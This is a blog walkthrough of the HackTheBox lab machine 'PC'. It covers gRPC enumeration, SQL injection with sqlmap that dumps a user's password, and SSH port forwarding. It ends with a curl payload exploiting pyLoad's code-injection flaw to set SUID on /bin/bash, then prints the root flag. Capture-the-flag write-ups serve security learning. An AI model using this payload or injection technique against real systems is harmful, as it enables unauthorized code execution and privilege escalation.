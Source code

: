```yaml
---
title: "PC HackTheBox"
layout: post
date: 2023-08-10 16:00
tag: 
- HackTheBox
- Pentesting
- PC
- Linux
- Easy
- gRPC
- SQLi
image: https://www.hackthebox.com/storage/avatars/6d08e5f1919c77c0497213377f635e08.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

An easy HackTheBox machine that exploits SQL injection in a gRPC application.

---

# Nmap

```bash
nmap -A -T4 10.10.11.214 -Pn -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-09 20:04 +01
Stats: 0:03:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.93% done; ETC: 20:10 (0:02:46 remaining)
Nmap scan report for 10.10.11.214
Host is up (0.098s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.91%I=7%D=8/9%Time=64D3E4AA%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I checked what's in the port 50051 I found :

![!\[\[Pasted image 20230809201409.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809201409.png>)

First I didn't know what's that about, but after some googling I found it's about gRPC :

>gRPC is a modern open-source high performance Remote Procedure Call (RPC) framework. It can efficiently connect services in and across data centers with pluggable support for load balancing, tracing, health checking and authentication.

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9)

Following the above POC. We will first try to list out the blogs available to us in the target scope :

```bash
grpcurl -plaintext 10.10.11.214:50051 list
```

![!\[\[Pasted image 20230809202020.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202020.png>)

Now we are able to see that the SimpleApp service is up and running, we will now check about the list of services running on gRPC server :

```bash
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
```

![!\[\[Pasted image 20230809202240.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202240.png>)

Now we will create a user using the GRPC UI tool :

```bash
./grpcui -plaintext 10.10.11.214:50051
```

![!\[\[Pasted image 20230809202812.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202812.png>)

This command will initiate a UI portal on which we can provide our data to login or register a user :

![!\[\[Pasted image 20230809202905.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202905.png>)

After playing around with the UI interface, I realized that I can request the data using the credentials "admin:admin".

![!\[\[Pasted image 20230809203400.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809203400.png>)

![!\[\[Pasted image 20230809212926.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809212926.png>)

The blog above gave me a hint about possible SQLi in gRPC :

![!\[\[Pasted image 20230810002455.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002455.png>)

Then I checked getInfo, which requires the token of the user to work :

![!\[\[Pasted image 20230810001553.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001553.png>)

I sent the request to Repeater and then save it as req.txt to automatically test against SQLi :

```bash
sqlmap -r req.txt --dump
```

I found the credentials of the user **sau** :
**sau : HereIsYourPassWord1431**

![!\[\[Pasted image 20230810002005.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002005.png>)

# User flag

I'm in ! Now I can get the user flag :

![!\[\[Pasted image 20230810001948.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001948.png>)

# PE

I checked running services and I found a suspicious port, I decided to do SSH port forwarding to see what's behind this port :

![!\[\[Pasted image 20230810102352.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102352.png>)

```bash
ssh -L 127.0.0.1:8000:127.0.0.1:8000 sau@10.10.11.214
```
![!\[\[Pasted image 20230810102306.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102306.png>)

Found a pyLoad page, I checked if there a POC for that and I found it :

![!\[\[Pasted image 20230810102251.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102251.png>)

[https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65)

I changed the payload to add the SUID permission to /bin/bash :

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

![!\[\[Pasted image 20230810104618.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104618.png>)

Boom I'm root !

![!\[\[Pasted image 20230810104551.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104551.png>)

# Root flag

bash-5.0# cat /root/root.txt 
80c997563bf9af451544f2e71984d3c6

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>